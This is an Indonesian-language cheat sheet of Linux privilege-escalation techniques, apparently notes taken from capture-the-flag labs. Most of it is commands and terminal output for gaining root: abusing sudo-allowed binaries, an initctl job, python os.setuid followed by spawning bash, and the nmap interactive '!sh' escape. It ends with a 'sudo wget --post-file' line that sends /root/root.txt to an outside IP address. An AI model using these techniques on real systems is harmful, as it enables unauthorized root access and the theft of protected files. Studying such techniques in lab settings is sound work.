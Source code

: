 # SUDO

buat cek mana yang bisa sudo tanpa password pake ini:

    sudo -l 

contoh output:

    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

# /sbin/initctl

Privesc via /sbin/initctl

edit file `/etc/init/test.conf`
tambahin di dalem script
jalanin perintah: sudo /sbin/initctl start test
kalo dah jalan bakal begini: test start/running, process 11746

sekarang tinggal akses bash begini: bash -p

# python setuid

    nathan@cap:/var/www/html$ python3
    Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import os
    >>> 
    >>> os.setuid(0)
    >>> os.system('id')
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    0
    >>> 
    >>> os.system('/bin/bash')

# nmap suid 

    bash-3.2$ sudo nmap --interactive
    sudo nmap --interactive

    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !sh
    !sh
    sh-3.2# id
    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

# wget

read file with root permission

    sudo wget --post-file=/root/root.txt 10.10.14.30:443


